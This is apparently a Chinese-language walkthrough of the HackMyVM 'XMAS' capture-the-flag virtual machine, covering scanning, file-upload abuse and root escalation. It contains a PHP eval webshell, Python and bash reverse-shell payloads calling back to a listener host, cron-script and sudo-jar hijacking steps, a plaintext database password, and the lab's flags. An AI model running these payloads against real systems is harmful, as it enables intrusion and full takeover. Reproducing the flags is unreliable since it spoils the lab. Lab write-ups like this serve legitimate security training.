

# XMAS

:::note

[Linux VM] [Tested on VirtualBox] created by || eMVee

⏲️ Release Date // 2023-12-25

✔️ MD5 // 9cd7c659698762402ddd74c8da7cc534

☠ Root // 40

💀 User // 40

📝Notes //
Merry Christmas to everyone!

:::

## 靶机启动

靶机 IP：

```plaintext
192.168.56.101
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.101
Host is up (0.00063s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a6:3e:0b:65:85:2c:0c:5e:47:14:a9:dd:aa:d4:8c:60 (ECDSA)
|_  256 99:72:b5:6e:1a:9e:70:b3:24:e0:59:98:a4:f9:d1:25 (ED25519)
80/tcp open  http    Apache httpd 2.4.55
|_http-title: Did not follow redirect to http://christmas.hmv
|_http-server-header: Apache/2.4.55 (Ubuntu)
```

添加 hosts 记录

```plaintext title="/etc/hosts"
192.168.56.101 christmas.hmv
```

## web 服务


尝试进行目录扫描

```shell
[10:28:15] 200 -    6KB - /images/
[10:28:16] 200 -   22KB - /index.php
[10:28:16] 200 -   22KB - /index.php/login/
[10:28:18] 200 -    4KB - /js/
[10:28:30] 200 -  949B  - /php/
[10:28:49] 200 -  744B  - /uploads/
```

在网页下半部分发现一个上传功能，经过测试可以通过以下类似的文件名实现 webshell 上传

```php title="reverse.pdf.php"
<?php @eval($_POST['shell']) ?>
// http://christmas.hmv/uploads/reverse.pdf.php
```

成功建立连接



直接反弹 shell

```shell
# python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 8888
[12:09:10] Welcome to pwncat 🐈!\
[12:10:17] received connection from 192.168.56.101:57480
[12:10:18] 192.168.56.101:57480: registered new host w/ db
(local) pwncat$ back
(remote) www-data@xmas:/var/www/christmas.hmv/uploads$ whoami
www-data
```

### 扫描提权路径

对常见路径进行探测，发现

```plaintext
(remote) www-data@xmas:/opt/NiceOrNaughty$ pwd
/opt/NiceOrNaughty
(remote) www-data@xmas:/opt/NiceOrNaughty$ ls -lh
total 4.0K
-rwxrwxrw- 1 root root 2.0K Nov 20 18:39 nice_or_naughty.py
```

```python title="/opt/NiceOrNaughty/nice_or_naughty.py"
import mysql.connector
import random
import os

# Check the wish lists directory
directory = "/var/www/christmas.hmv/uploads"
# Connect to the mysql database christmas
mydb = mysql.connector.connect(
    host="localhost",
    user="root",
    password="ChristmasMustGoOn!",
    database="christmas"
)

#Read the names of the wish list
def read_names(directory):
    for filename in os.listdir(directory):
        full_path = os.path.join(directory, filename)
        if os.path.isfile(full_path):
            name, ext = os.path.splitext(filename)
            if any(char.isalnum() for char in name):
                status = random.choice(["nice", "naughty"])
                #print(f"{name} {status}")
                insert_data(name, status)
                os.remove(full_path)
            else:
                pass

        elif os.path.isdir(full_path):
            pass

# Insert name into the database
def insert_data(name, status):
    mycursor = mydb.cursor()
    sql = "INSERT INTO christmas (name, status) VALUES ( %s, %s)"
    val = (name, status)
    mycursor.execute(sql, val)
    mydb.commit()

#Generate printable Nice and Naughty list
def generate_lists():
    mycursor = mydb.cursor()

    # SQL query to fetch all names and status
    mycursor.execute("SELECT name, status FROM christmas")

    # Separate the nice and naughty lists
    nice_list = []
    naughty_list = []

    for (name, status) in mycursor:
        if status == "nice":
            nice_list.append(name)
        else:
            naughty_list.append(name)

    parent_directory = os.path.dirname(os.getcwd())
    file_path = "/home/alabaster/nice_list.txt"
    # Save the nice and naughty lists to separate txt files
    with open(file_path, "w") as file:
        for name in nice_list:
            file.write(f"{name}\n")
    file_path = "/home/alabaster/naughty_list.txt"
    with open(file_path, "w") as file:
        for name in naughty_list:
            file.write(f"{name}\n")

read_names(directory)
generate_lists()
```

简单分析一下，就是将上传的文件进行解析，解析结果储存到数据库，然后删除。根据上传的 webshell 文件总是被定时删除，可以猜测这是一个定时任务，并且目标文件可控，尝试利用

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.102",9999))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

```shell
(remote) www-data@xmas:/opt/NiceOrNaughty$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' > nice_or_naughty.py
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 7777
[22:51:50] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[22:52:01] received connection from 192.168.56.101:36574                                                                                                                                              bind.py:84
[22:52:02] 192.168.56.101:36574: registered new host w/ db                                                                                                                                        manager.py:957
(local) pwncat$ back
(remote) alabaster@xmas:/home/alabaster$ whoami
alabaster
```

## User - alabaster

### flag - user

```plaintext
(remote) alabaster@xmas:/home/alabaster$ cat user.txt
    ||::|:||   .--------,
    |:||:|:|   |_______ /        .-.
    ||::|:|| ."`  ___  `".    {\('v')/}
    \\\/\///:  .'`   `'.  ;____`( )'___________________________
     \====/ './  o   o  \|~     ^" "^                          //
      \\//   |   ())) .  |   Merry Christmas!                   \
       ||     \ `.__.'  /|                                     //
       ||   _{``-.___.-'\|   Flag: HMV{7bMJ6js7guhQadYDTmBt}    \
       || _."`-.____.-'`|    ___                              //
       ||`        __ \   |___/   \______________________________\
     ."||        (__) \    \|     /
    /   `\/       __   vvvvv'\___/
    |     |      (__)        |
     \___/\                 /
       ||  |     .___.     |
       ||  |       |       |
       ||.-'|'-.
       ||          |          )
       ||----------'---------'
```

### 尝试提权

```plaintext title="sudo -l"
Matching Defaults entries for alabaster on xmas:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User alabaster may run the following commands on xmas:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /usr/bin/java -jar /home/alabaster/PublishList/PublishList.jar
```

将 jar 文件下载到本地进行反编译

```java
package defpackage;

import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;

/* renamed from: PublishList  reason: default package */
/* loaded from: PublishList.jar:PublishList.class */
public class PublishList {
    public static void main(String[] strArr) {
        try {
            copyFile("/home/alabaster/nice_list.txt", "/home/santa/");
            copyFile("/home/alabaster/naughty_list.txt", "/home/santa/");
            System.out.println("Files copied successfully!");
        } catch (IOException e) {
            System.out.println("Failed to copy files!");
            e.printStackTrace();
        }
    }

    private static void copyFile(String str, String str2) throws IOException {
        FileInputStream fileInputStream = new FileInputStream(str);
        FileOutputStream fileOutputStream = new FileOutputStream(str2 + new File(str).getName());
        byte[] bArr = new byte[4096];
        while (true) {
            int read = fileInputStream.read(bArr);
            if (read != -1) {
                fileOutputStream.write(bArr, 0, read);
            } else {
                fileInputStream.close();
                fileOutputStream.close();
                return;
            }
        }
    }
}
```

看起来没有什么突破口，就是简单的文件复制功能，但是 `/home/alabaster/PublishList/PublishList.jar` 这个文件是可控的，于是可以考虑将其换成我们的恶意载荷

```java title="shell.java"
public class shell {
    public static void main(String[] args) {
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i >& /dev/tcp/192.168.56.102/6666 0>&1")
            .redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

```plaintext title="Manifest.txt"
Main-Class: shell
```

编译后进行部署

```shel
(remote) alabaster@xmas:/tmp$ echo "" > shell.java ;nano shell.java
(remote) alabaster@xmas:/tmp$ nano Manifest.txt
(remote) alabaster@xmas:/tmp$ jar cfm Shell.jar Manifest.txt shell.class
(remote) alabaster@xmas:/tmp$ java -jar Shell.jar 
(remote) alabaster@xmas:/tmp$ cp Shell.jar /home/alabaster/PublishList/PublishList.jar
(remote) alabaster@xmas:/tmp$ sudo -u root /usr/bin/java -jar /home/alabaster/PublishList/PublishList.jar
```

成功收到回连的shell

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 6666
[18:05:08] Welcome to pwncat 🐈!
[18:11:17] received connection from 192.168.56.101:40662
[18:11:18] 192.168.56.101:40662: registered new host w/ db
(local) pwncat$ back

(remote) root@xmas:/tmp# whomami
Command 'whomami' not found, did you mean:
  command 'whoami' from deb coreutils (9.1-1ubuntu2)
Try: apt install <deb name>
(remote) root@xmas:/tmp# whoami
root
```

## User - root

### flag- root

```shell
(remote) root@xmas:/root# cat root.txt 
      __,_,_,___)          _______
    (--| | |             (--/    ),_)        ,_) 
       | | |  _ ,_,_        |     |_ ,_ ' , _|_,_,_, _  ,
     __| | | (/_| | (_|     |     | ||  |/_)_| | | |(_|/_)___,
    (      |___,   ,__|     \____)  |__,           |__,

                            |                         _...._
                         \  _  /                    .::o:::::.
                          (\o/)                    .:::'''':o:.
                      ---  / \  ---                :o:_    _:::
                           >*<                     `:}_>()<_{:'
                          >0<@<                 @    `'//\\'`    @ 
                         >>>@<<*              @ #     //  \\     # @
                        >@>*<0<<<           __#_#____/'____'\____#_#__
                       >*>>@<<<@<<         [__________________________]
                      >@>>0<<<*<<@<         |=_- .-/\ /\ /\ /\--. =_-|
                     >*>>0<<@<<<@<<<        |-_= | \ \\ \\ \\ \ |-_=-|
                    >@>>*<<@<>*<<0<*<       |_=-=| / // // // / |_=-_|
      \*/          >0>>*<<@<>0><<*<@<<      |=_- |`-'`-'`-'`-'  |=_=-|
  ___\\U//___     >*>>@><0<<*>>@><*<0<<     | =_-| o          o |_==_| 
  |\\ | | \\|    >@>>0<*<<0>>@<<0<<<*<@<    |=_- | !     (    ! |=-_=|
  | \\| | _(UU)_ >((*))_>0><*<0><@<<<0<*<  _|-,-=| !    ).    ! |-_-=|_
  |\ \| || / //||.*.*.*.|>>@<<*<<@>><0<<@</=-((=_| ! __(:')__ ! |=_==_-\
  |\\_|_|&&_// ||*.*.*.*|_\\db//__     (\_/)-=))-|/^\=^=^^=^=/^\| _=-_-_\
  """"|'.'.'.|~~|.*.*.*|     ____|_   =('.')=//   ,------------.      
      |'.'.'.|   ^^^^^^|____|>>>>>>|  ( ~~~ )/   (((((((())))))))   
      ~~~~~~~~         '""""`------'  `w---w`     `------------'
      Flag HMV{GUbM4sBXzvwf7eC9bNL4}
```
